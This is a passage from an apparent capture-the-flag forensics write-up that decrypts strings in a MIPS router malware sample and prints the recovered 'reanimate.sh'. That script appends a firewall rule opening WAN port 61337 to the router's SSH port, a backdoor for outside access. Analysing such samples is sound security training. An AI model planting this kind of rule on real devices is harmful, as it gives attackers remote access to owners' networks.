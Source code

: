```python

c=[0x9a,0x6f,0x65,0xf0,0xad,0xf4,0xe4,0x7e,0x4e,0x93,0x70,0x69,0x8e,0xc5,0xe1,0x55,0x3a,0xf5,0x5f,0xc1,0x0] 
d=[0x9a,0x6f,0x65,0xf0,0xad,0xf4,0xf2,0x7e,0x4a,0x8c,0x46,0x63,0x90,0x82,0xea,0x40,0xc8]




p=decrypt(enc1)
q=decrypt(enc2)
r=decrypt(c)
s=decrypt(d)


print("a="+"".join(chr(i) for i in p))
print("b="+"".join(chr(i) for i in q))
print("c="+"".join(chr(i) for i in r))
for i in d:
    print(chr(i),end="")
```


output:
```bash
av@tokyo:~/ctf/htb-university-ctf/for
$ python3 solve.py
[!] Could not populate MIPS GOT: seek out of range
[!] Did not find any GOT entries
[*] '/home/av/ctf/htb-university-ctf/for/dead-reanimation'
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
34
a=http://configs.router.htb/dead_reanimated_mNmZTMtNjU3YS00î
b=http://configs.router.htb/reanimate.sh_jEzOWMtZTUxOS00¤
c=E~g\x1aütu²C¼BºJM¶ÞÏ\x03
oeð­ôò~JFcê@È
av@tokyo:~/ctf/htb-university-ctf/for
$
```

Nice ! so we got our urls we can now use wget and look at these files .

```bash
av@tokyo:~/ctf/htb-university-ctf/for/configs
$ cat reanimate.sh
#!/bin/sh

WAN_IP=$(ip -4 -o addr show pppoe-wan | awk '{print $4}' | cut -d "/" -f 1)
ROUTER_IP=$(ip -4 -o addr show br-lan | awk '{print $4}' | cut -d "/" -f 1)

CONFIG="config redirect         \n\t
	option dest 'lan'           \n\t
	option target 'DNAT'        \n\t
	option name 'share'         \n\t
	option src 'wan'            \n\t
	option src_dport '61337'    \n\t
	option dest_port '22'       \n\t
	option family 'ipv4'        \n\t
	list proto 'tcpudp'         \n\t
	option dest_ip '${ROUTER_IP}'"

echo -e $CONFIG >> /etc/config/firewall
```
